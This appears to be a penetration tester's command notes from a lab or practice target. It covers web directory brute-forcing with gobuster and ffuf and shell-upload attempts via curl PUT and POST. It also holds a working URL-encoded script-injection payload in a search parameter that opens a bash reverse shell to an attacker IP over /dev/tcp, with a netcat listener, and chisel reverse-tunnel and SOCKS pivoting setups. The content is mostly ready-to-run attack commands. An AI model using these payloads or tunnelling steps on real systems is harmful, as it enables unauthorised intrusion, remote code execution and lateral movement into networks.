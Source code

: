 # Services    
## API Endpoints
`gobuster dir -u http://192.168.133.143:80/api/ -w /usr/share/seclists/Discovery/Web-Content/common.txt`
```

```

`gobuster dir -u http://192.168.133.143:80/api/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -b 403`
```
```

`ffuf -c -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://192.168.133.143/FUZZ`
```

```
`ffuf -c -w /usr/share/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt -u http://192.168.133.143/FUZZ`
```
```

# Command History
```c
ffuf -u http://192.168.186.150:8080/FUZZ -w /usr/share/wordlists/dirb/common.txt -mc 200,403

curl http://192.168.204.150:8080/actuator

curl http://192.168.204.150:8080/search

curl -X PUT http://192.168.204.150:8080/shell.sh --data-binary @shell.sh

curl -X POST http://192.168.204.150:8080 -F "file=@shell.sh"

ffuf -u http://192.168.204.150:8080/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt

//set up listener
nc -lvnp 80
//get reverse shell
curl 'http://192.168.148.150:8080/search?query=%24%7Bscript%3Ajs%3Ajava%2Elang%2ERuntime%2EgetRuntime%28%29%2Eexec%28%5B%27bash%27%2C%27%2Dc%27%2C%27exec%20bash%20%2Di%20%3E%26%20%2Fdev%2Ftcp%2F192%2E168%2E45%2E185%2F80%200%3E%261%27%5D%29%7D'
// {"query":"${script:js:java.lang.Runtime.getRuntime().exec(['bash','-c','exec bash -i >& /dev/tcp/192.168.45.186/80 0>&1'])}","result":""}


## CHISEL
Listener/Server - KALI
- ./chisel server -p 9999 --reverse
Client - Target
- chisel client {KALI IP}:9999 R:LOCAL_PORT:TARGET_IP:TARGET_PORT
- Target IP and Port are for the service trying to reach

Example:
- Kali: ./chisel server -p 9999 --reverse
- Target: chisel client {KALI IP}:9999 R:8000:127.0.0.1:8000
Then to access, use 127.0.0.1 and whatever port assigned

Also for socks proxy:
- kali:./chisel server -p 888 --reverse
- target:./chisel.exe client <kaliip>:8888 R:socks
- proxychains.conf socks5 127.0.0.1 1080
```